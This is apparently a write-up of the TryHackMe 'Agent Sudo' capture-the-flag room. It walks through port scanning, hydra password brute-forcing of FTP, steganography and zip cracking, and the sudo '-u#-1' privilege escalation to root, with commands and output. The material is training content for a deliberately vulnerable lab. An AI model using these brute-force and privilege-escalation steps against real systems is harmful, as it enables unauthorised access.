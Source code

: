 ```yaml
---
title: Agent Sudo
date: 2020-08-03 00:00:00 +5:30
categories: [TryHackMe, easy]
tags: [tryhackme, CTF, Sudo, CVE, Hashcracking, Steganography] # add tag
---
```


## Description:

The Following Post is writeup of Agent Sudo room of tryhackme <https://tryhackme.com/room/agentsudoctf>

|Machine|Details
|:---|:--
|OS | linux
|Rating | Easy
|Creator | DesKel

## Summary:

  PortScan will give you 3 open ports 21,22 and 80. When we go to port 80 we can see a message to change useragent
  we changed it to C and boom landed upon secret page. From here we logged into ftp and extracted some files. Zip Crack and
  Steganography all the way. Now we have another username and password. Now sudo exploit.

## Walkthrough:

### Enumeration
Lets start with nmap scan

```terminal
└──╼ $nmap -sC -sV -A -T4 10.10.144.201 -v
Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-02 10:22 EDT
NSE: Loaded 151 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 10:22
Completed NSE at 10:22, 0.00s elapsed
Initiating NSE at 10:22
Completed NSE at 10:22, 0.00s elapsed
Initiating NSE at 10:22
Completed NSE at 10:22, 0.00s elapsed
Initiating Ping Scan at 10:22
Scanning 10.10.144.201 [2 ports]
Completed Ping Scan at 10:22, 0.21s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 10:22
Completed Parallel DNS resolution of 1 host. at 10:22, 0.10s elapsed
Initiating Connect Scan at 10:22
Scanning 10.10.144.201 [1000 ports]
Discovered open port 21/tcp on 10.10.144.201
Discovered open port 80/tcp on 10.10.144.201
Discovered open port 22/tcp on 10.10.144.201
Increasing send delay for 10.10.144.201 from 0 to 5 due to 47 out of 117 dropped probes since last increase.
Completed Connect Scan at 10:22, 14.29s elapsed (1000 total ports)
Initiating Service scan at 10:22
Scanning 3 services on 10.10.144.201
Completed Service scan at 10:22, 6.46s elapsed (3 services on 1 host)
NSE: Script scanning 10.10.144.201.
Initiating NSE at 10:22
Completed NSE at 10:22, 7.03s elapsed
Initiating NSE at 10:22
Completed NSE at 10:22, 0.96s elapsed
Initiating NSE at 10:22
Completed NSE at 10:22, 0.00s elapsed
Nmap scan report for 10.10.144.201
Host is up (0.20s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 ef:1f:5d:04:d4:77:95:06:60:72:ec:f0:58:f2:cc:07 (RSA)
|   256 5e:02:d1:9a:c4:e7:43:06:62:c1:9e:25:84:8a:e7:ea (ECDSA)
|_  256 2d:00:5c:b9:fd:a8:c8:d8:80:e3:92:4f:8b:4f:18:e2 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Annoucement
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

NSE: Script Post-scanning.
Initiating NSE at 10:22
Completed NSE at 10:22, 0.00s elapsed
Initiating NSE at 10:22
Completed NSE at 10:22, 0.00s elapsed
Initiating NSE at 10:22
Completed NSE at 10:22, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 29.66 seconds
```
Start our enum for port 80

>Dear agents,

>Use your own codename as user-agent to access the site.

>From,<br/>
>Agent R

>try user agent C

#### Secret Page

>Attention chris,

>o you still remember our deal? Please tell agent J about the stuff ASAP. Also, change your god damn password, is weak!

>From,<br/>
>Agent R



So indeed the password is weak let's brute force ssh or ftp

I tried both but got success in vsftpd

```terminal
└──╼ $hydra -l chris -P /usr/share/wordlists/rockyou.txt ftp://10.10.144.201
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-08-02 10:28:58
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ftp://10.10.144.201:21/
[21][ftp] host: 10.10.144.201   login: chris   password: <redacted>
[STATUS] 14344399.00 tries/min, 14344399 tries in 00:01h, 1 to do in 00:01h, 15 active
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-08-02 10:30:02
```
```terminal
Let's check files

-rw-r--r--    1 0        0             217 Oct 29  2019 To_agentJ.txt
-rw-r--r--    1 0        0           33143 Oct 29  2019 cute-alien.jpg
-rw-r--r--    1 0        0           34842 Oct 29  2019 cutie.png
```
cat To_agentJ.txt

>Dear agent J,

>All these alien like photos are fake! Agent R stored the real picture inside your directory. Your login password is somehow stored in the fake picture. It shouldn't be a problem for you.

>From,
Agent C

Another message<br/>
Let's check for Steganography

Binwalk
```terminal
└──╼ $binwalk cutie.png

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             PNG image, 528 x 528, 8-bit colormap, non-interlaced
869           0x365           Zlib compressed data, best compression
34562         0x8702          Zip archive data, encrypted compressed size: 98, uncompressed size: 86, name: To_agentR.txt
34820         0x8804          End of Zip archive, footer length: 22
```
Use john to crack the zip pass then we will get a Message

>Agent C,

>We need to send the picture to 'QXJ.....' as soon as possible!

>By,
Agent R

Hmmmm interesting let's check where we can put this password
I pretty much stuck but after a thought i got it
```terminal
└──╼ $base64 -d rand.txt
<redacted>
```
hahha worked and got message.txt

>Hi james,

>Glad you find this message. Your login password is hackerrules!

>Don't ask me why the password look cheesy, ask agent R who set this password for you.

>Your buddy
chris

For real i stuck a bit here and ran exploit suggester but got nothing
Then I feel noob when i ran this and my mind sudenly hit
```terminal
james@agent-sudo:/tmp$ sudo -l
[sudo] password for james:
Matching Defaults entries for james on agent-sudo:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on agent-sudo:
    (ALL, !root) /bin/bash
```
Yup sudo exploit

```terminal
james@agent-sudo:/tmp$ sudo -u#-1 /bin/bash
root@agent-sudo:/tmp#
```

Damn Good Rooted

>To Mr.hacker,

>Congratulation on rooting this box. This box was designed for TryHackMe. Tips, always update your machine.

>Your flag is
<redacted>

>By,
<redacted> a.k.a Agent R
